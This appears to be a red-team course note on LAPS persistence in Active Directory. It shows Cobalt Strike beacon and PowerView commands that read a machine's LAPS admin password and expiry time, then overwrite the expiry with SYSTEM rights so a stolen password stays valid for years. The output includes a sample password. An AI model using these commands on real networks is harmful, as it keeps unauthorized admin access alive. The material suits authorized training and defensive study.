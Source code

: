 We can try to extend the password expiration date so we don't have to worry about losing our access via the pwned password of property `ms-Mcs-AdmPwd`


#### 🖊️ LAPS policy settings

The `_PwdExpirationProtectionEnabled_` property prevents a user or computer setting the expiration date of a password beyond the password age specified in the _PasswordAgeDays_ setting. If password expiration protection is enabled and we try to change the expiration date of `_PwdExpirationProtectionEnabled_` then a trigger happens and we get blocked. 

If the policy setting is left "not configured" in the GPO, then password expiration protection is disabled by default.

#### 📔 via Cobalt Strike

1) The expiration date is an 18-digit timestamp calculated as the number of 100-nanosecond intervals (weird system). We can enumerate the expiration:

```
beacon> powershell Get-DomainComputer -Identity wkstn-1 -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime

ms-mcs-admpwdexpirationtime ms-mcs-admpwd 
--------------------------- ------------- 
         133101494718702551 1N3FyjJR5L18za
```

[Time converter](https://www.epochconverter.com/ldap)
Where `133101494718702551` is Thursday, 13 October 2022 15:44:31 GMT.

2) If we wanted to push the expiry out by 10 years, we can overwrite this value with `136257686710000000`.  Every computer has delegated access to write to this password field, so we must elevate to SYSTEM on WKSTN-1.

```
beacon> run hostname
wkstn-1

beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> powershell Set-DomainObject -Identity wkstn-1 -Set @{'ms-Mcs-AdmPwdExpirationTime' = '136257686710000000'} -Verbose


Setting 'ms-Mcs-AdmPwdExpirationTime' to '136257686710000000' for object 'WKSTN-1$'
```

 ⚠ The expiration date will still be visible to admins and a manual reset will change the password and restore the expiration date.




### Properties
---
📆 created   {{28-02-2024}} 09:26
🏷️ tags: #redteam #crto 

---

